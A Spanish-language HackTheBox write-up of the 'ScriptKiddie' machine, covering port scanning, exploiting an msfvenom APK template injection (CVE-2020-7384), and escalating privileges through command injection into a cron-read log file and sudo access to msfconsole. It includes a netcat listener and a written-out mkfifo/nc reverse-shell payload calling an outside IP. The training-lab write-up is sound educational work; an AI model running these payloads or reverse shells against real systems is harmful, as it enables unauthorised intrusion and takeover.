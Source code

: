 # Máquina "ScriptKiddie" de HackTheBox

## Características

- **Sistema Operativo:** Linux  
- **Dificultad:** Fácil 
- **Técnicas utilizadas:**
  - Msfvenom Exploitation [CVE-2020-7384] [RCE] 
  - Abusing Logs + Cron Job [Command Injection / User Pivoting] 
  - Abusing Sudoers Privilege [Msfconsole Privilege Escalation] 

## Útil para

- eJPT 
- OSCP (Escalada de privilegios)

**IP:** 10.10.10.226

## Reconocimiento

Comenzamos con un escaneo de puertos completo:

```bash
sudo nmap -sC -sV -p- 10.129.95.150 --min-rate 10000 
```

**Resultados del escaneo:**

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Análisis del Servicio Web

El portal web está disponible en el puerto 5000: `http://10.10.10.226:5000`

Se trata de una página simple en formato de texto que proporciona algunas funciones básicas.

![Página web principal](/secciones/posts/imagenes/scriptkiddie/web2.webp)

### Enumeración de directorios

Utilizamos gobuster con la lista de palabras raft-small-words.txt de SecLists:

```bash
sudo gobuster dir -u http://10.129.95.150:5000/ -w /media/sf_OneDrive/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster 
```

También intentamos buscar subcarpetas comunes ocultas con dirb:

```bash
dirb http://10.10.10.226:5000/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Feb 13 22:54:50 2021
URL_BASE: http://10.10.10.226:5000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.226:5000/ ----
                                                                                                                                
-----------------
END_TIME: Sat Feb 13 23:03:50 2021
DOWNLOADED: 4612 - FOUND: 0
```

## Explotación de msfvenom

La segunda característica expuesta parece utilizar msfvenom del framework Metasploit. Aprovechamos la funcionalidad searchsploit de la aplicación para descubrir una vulnerabilidad en msfvenom.

Ciertas versiones de msfvenom son vulnerables a la inyección de comandos a través de la plantilla APK. Script Kiddie nos proporciona convenientemente una función de carga de plantillas.

![Selección de plantilla](/secciones/posts/imagenes/scriptkiddie/chose.png)

Utilizamos searchsploit con el argumento `-m` para copiar el exploit a nuestro directorio de trabajo actual. Posteriormente, editamos el exploit y cambiamos la payload a un comando cURL que descarga y ejecuta nuestro script de shell.

### Acceso inicial

Cargamos el archivo envenenado y ponemos netcat en escucha:

```bash
┌──(in7rud3r㉿Mykali)-[~]
└─$ nc -lvp 4444                                                                                           
listening on [any] 4444 ...
```

Una vez que obtenemos la conexión:

```bash
/home/kid/html
whoami
kid
```

¡La primera bandera es nuestra!

Transferimos netcat a la víctima y lo ejecutamos para mantener una shell más estable.

## Escalada de privilegios

### Enumeración del sistema

Durante la enumeración, encontramos información interesante sobre archivos SUID:

```
====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms                                                                                          
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                    
-rwsr-sr-x 1 daemon daemon           55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)                                         
[...]
-rwsr-xr-x 1 root   root             31K Aug 16  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
[...]
-rwsr-xr-x 1 root   root             84K May 28  2020 /usr/bin/chfn  --->  SuSE_9.3/10
[...]
-rwxr-sr-x 1 root   incron  103K Mar 22  2020 /usr/bin/incrontab
```

### Descubrimiento de otro usuario

Encontramos otro usuario en la carpeta de inicio, con una carpeta y un archivo que parece ser el script que ejecuta el escaneo nmap para el portal:

```bash
$ cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

### Explotación de Command Injection

El script crea un archivo en:

```
-rw-rw-r-- 1 kid pwn 0 Feb 14 11:06 /home/kid/logs/hackers
```

Aunque no podemos ejecutar el script directamente, parece ser vulnerable a inyección de comandos.

**Prueba del exploit:**

```bash
1 2 ;echo 'my test' >> finalfile.txt #
```

El resto de la cadena es el comando real que crea un archivo llamado "finalfile.txt". Este es un exploit de prueba que probamos en nuestra máquina para asegurarnos de que funciona.

**Payload final:**

```bash
$ echo "1 2 ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.239 4445 >/tmp/f #" >> hackers
```

### Escalada final con sudo

En este punto ya hemos accedido al nuevo usuario. Ejecutamos `sudo -l` y descubrimos que podemos ejecutar el framework Metasploit como root.

Accedemos a msfconsole con privilegios de root y buscamos la flag final.

## Nota  

Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes. Esto se debe a que en algunas de las máquinas que realicé, no tomé los apuntes necesarios o no capturé pantallas, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí.
 